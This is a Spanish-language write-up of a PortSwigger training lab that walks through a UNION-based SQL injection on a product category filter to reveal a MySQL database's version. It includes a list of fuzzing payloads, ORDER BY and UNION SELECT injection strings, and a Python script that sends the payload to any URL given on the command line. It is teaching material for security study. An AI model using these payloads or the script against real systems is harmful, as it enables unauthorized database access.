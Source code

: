 ```yaml
---
title: "08 SQLi attack, querying the database type and version on MySQL & Microsoft"
collection: publications
category: portswigger
permalink: /publications/08_SQLi attack, querying the database type and version on MySQL & Microsoft
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en bases de datos de Microsoft y MySQL.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi attack, querying the database type and version on MySQL & Microsoft'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

Ingresamos una lista de payloads y ejecutamos con Burpsuite

```javascript
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator
@variable	local variable
@@variable	global variable
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/Intruder.png)

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado2.png)

Y probamos uno de los resultados

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1#
' ORDER BY 2#
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD MySQL necesitamos comentar con #.
Los 2 campos son de tipo `String`

```javascript
' UNION SELECT 'A', NULL#
' UNION SELECT NULL, 'A'# 
' UNION SELECT 'A', 'A'#
```

![String]({{site.url}}/images/SQLi/sqli-8/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD MySQL

```javascript
' UNION SELECT 'A', @@version#
```

![DB version]({{site.url}}/images/SQLi/sqli-8/version.png)

## Aprobado 

![Aprobado]({{site.url}}/images/SQLi/sqli-8/Aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def explot_sqli_version(url):
    path = "/filter?category=Gifts"
    sql_payload = "' UNION SELECT @@version, NULL#"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    soup = BeautifulSoup(res, 'html.parser')
    version = soup.find(string=re.compile(r'.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
    if version is None:
        return False
    else:
        print("[-] The database version is: " + version)
        return True

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of  the database...")
    if not explot_sqli_version(url):
        print("[-] Unable to dump the database version.")
```